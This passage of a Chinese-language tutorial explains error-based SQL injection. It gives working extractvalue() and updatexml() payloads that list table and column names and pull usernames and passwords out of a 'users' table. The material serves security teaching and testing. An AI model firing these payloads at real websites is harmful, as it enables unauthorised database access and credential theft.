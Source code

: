 

## 三、报错注入

### 3.1 什么是报错注入？

**报错注入**是一种SQL注入类型，用于使SQL语句报错的语法，用于注入结果无回显但错误信息有输出的情况。返回的错误信息即是攻击者需要的信息。所以当我们没有回显位时可以考虑报错注入这种方法来进行渗透测试。接下来带给大家常用的三种报错注入函数。

常见的报错注入：

1. 通过floor()报错注入
2. 通过extractValue() 报错注入
3. 通过updateXml()报错注入
4. 通过NAME_CONST() 报错注入
5. 通过jion()报错注入
6. 通过exp()报错注入

类似于这样的报错提示。

![image-20240506180724537](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240506180724537.png?imageSlim)

### 3.2 利用extractValue()报错注入

```sql
100 and 1=extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+
```

然后虽然页面提示的是报错信息，但是已经包含了数据表：

![image-20240506181528697](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240506181528697.png?imageSlim)

然后可以通过如下去查询当前的一些字段：

```sql
100 and 1=extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))) --+
```

但是默认只能返回32个字符串，所以这里需要使用substring解决这个问题：

```sql
100 and 1=extractvalue(1,concat(0x7e,(select substring(group_concat(username,'~',password),25,30) from users))) --+
```



### 3.3 利用updatexml()报错注入

```sql
1" and 1=updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema = database())),3)--+
```

![image-20240506183524025](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240506183524025.png?imageSlim)
